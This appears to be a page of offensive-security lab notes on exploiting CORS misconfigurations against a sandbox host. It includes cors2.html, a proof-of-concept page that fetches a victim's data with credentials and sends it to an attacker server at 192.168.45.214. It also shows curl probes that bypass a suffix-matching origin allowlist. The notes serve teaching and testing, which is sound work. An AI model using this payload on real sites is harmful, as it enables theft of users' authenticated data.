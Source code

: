 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CORS

## **Trusting Any Origin**

For exploiting a CORS misconfiguration, we must first check if the [`SameSite`](../common-findings/cookie-flags.md#samesite) cookie flag is set (Figure 1).

<figure><img src="../../../.gitbook/assets/offsec_cors_2.png" alt=""><figcaption><p>Figure 1: Checking the <code>SessionCookie</code>'s set flags via the browser.</p></figcaption></figure>

The presence of `Access-Control` headers indicates that the application supports CORS (Figure 2).

<figure><img src="../../../.gitbook/assets/offsec_cors_3.png" alt=""><figcaption><p>Figure 2: Inspecting a CORS request and response.</p></figcaption></figure>

If we send the same request unauthenticated (without the `Cookie` header), we get a `401 Unauthorized` response (Figure 3). Remember that a browser won't include credentials on a CORS request without the `Access-Control-Allow-Credentials` header. Furthermore, a wildcard value for the `Access-Control-Allow-Origin` header doesn't allow `Access-Control-Allow-Credentials` to be `true`.

<figure><img src="../../../.gitbook/assets/offsec_cors_4.png" alt=""><figcaption><p>Figure 3: Sending a request without credentials.</p></figcaption></figure>

When we add the `Origin` header to the CORS request, the `Access-Control-Allow-Credentials` response header is added (Figure 4).

<figure><img src="../../../.gitbook/assets/offsec_cors_5.png" alt=""><figcaption><p>Figure 4: Adding the <code>Origin</code> header.</p></figcaption></figure>

We can try to reach the above endpoint from an external domain (Figure 5). Notice that this is a CORS request (`mode: 'cors'`) including credentials (`credentials: 'include'`).

{% code title="cors1.html" %}
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    console.log(data);
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/offsec_cors_6.png" alt=""><figcaption><p>Figure 5: Accessing the page from another domain.</p></figcaption></figure>

Since JavaScript can access the response, we can update our page to send the `code` to an arbitrary domain. The below request creates a CORS page to get the code on behalf of the victim and then sent it to an attacker-control server (Figure 6).

{% code title="cors2.html" overflow="wrap" %}
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.214/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/offsec_cors_7.png" alt=""><figcaption><p>Figure 6: Successfully exfiltrating the <code>code</code> to an arbitrary domain.</p></figcaption></figure>

## **Improper Domain Allowlist**

The `Access-Control-Allow-Origin` header can only set a single domain. When an application needs to support multiple-origin CORS, it must include server-side logic to respond with the appopriate value via inspecting the `Origin` header to a CORS request. Two common appraches are to check if the `Origin` header includes a preset value or ends with a preset value and then reflecting that header value. In the example below, the server responds with an `Access-Control-Allow-Origin` header.

```bash
# preflight request
$ curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:54:20 GMT
server: waitress
content-length: 0
```

Passing a different origin (different protocol and subdomain) via the `Origin` header reflects it back to the response.

{% code overflow="wrap" %}
```bash
# including the Origin header
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 07:56:43 GMT
server: waitress
content-length: 0
```
{% endcode %}

The server does not reflect the origin passed if we change its TLD[^1], but it responds with the default value. The same behavior happens when another domain is passed.

{% code overflow="wrap" %}
```bash
# modifiying the top level domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.offensive-security.net" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:00:57 GMT
server: waitress
content-length: 0

# passing another domain
$ curl -X "OPTIONS" -i -k -H "Origin: http://malicious.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:35 GMT
server: waitress
content-length: 0
```
{% endcode %}

Based on this information, we can infer that the server is allowing domains that end with `offensive-security.com`, perhaps to allow various subdomains. However, it is not checking for a leading period and this allow us to prepend something to the domain name and bypass CORS.

{% code overflow="wrap" %}
```bash
$ curl -X "OPTIONS" -i -k -H "Origin: http://www.maliciousoffensive-security.com" https://cors-sandbox/allowlist
HTTP/2 200
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.maliciousoffensive-security.com
content-type: text/html; charset=utf-8
date: Fri, 09 Aug 2024 08:03:21 GMT
server: waitress
content-length: 0
```
{% endcode %}

[^1]: Top Level Domain

